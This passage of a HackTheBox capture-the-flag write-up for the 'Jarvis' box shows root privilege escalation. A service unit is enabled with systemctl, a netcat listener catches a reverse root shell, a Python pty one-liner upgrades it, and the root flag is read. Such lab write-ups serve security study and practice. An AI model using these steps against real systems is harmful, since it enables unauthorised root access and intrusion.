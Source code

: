 Then, I copied the file in pepper's directory
```
pepper@jarvis:/tmp$ cp root.service /home/pepper/
cp root.service /home/pepper/
pepper@jarvis:/tmp$ ls /home/pepper
ls /home/pepper
Web  root.service  user.txt
```

Ran the following command from pepper's directory
```
pepper@jarvis:~$ /bin/systemctl enable /home/pepper/root.service
/bin/systemctl enable /home/pepper/root.service
Created symlink /etc/systemd/system/multi-user.target.wants/root.service -> /home/pepper/root.service.
```

Started a netcat listener.
```
nc -lvnp 8881
```

Then on the target machine, I started the root service

```
/bin/systemctl start root
```

Viewing the netcat shell, I got a root shell!!!
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Jarvis]
└─$ nc -lvnp 8881
listening on [any] 8881 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.143] 43064
whoami
root
```

Upgrading the shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@jarvis:/# ls
ls
bin   home            lib32       mnt   run   tmp      vmlinuz.old
boot  initrd.img      lib64       opt   sbin  usr
dev   initrd.img.old  lost+found  proc  srv   var
etc   lib             media       root  sys   vmlinuz
```

Grabbing the root file.
```
root@jarvis:/# cat root/root.txt
cat root/root.txt
[REDACTED]
```


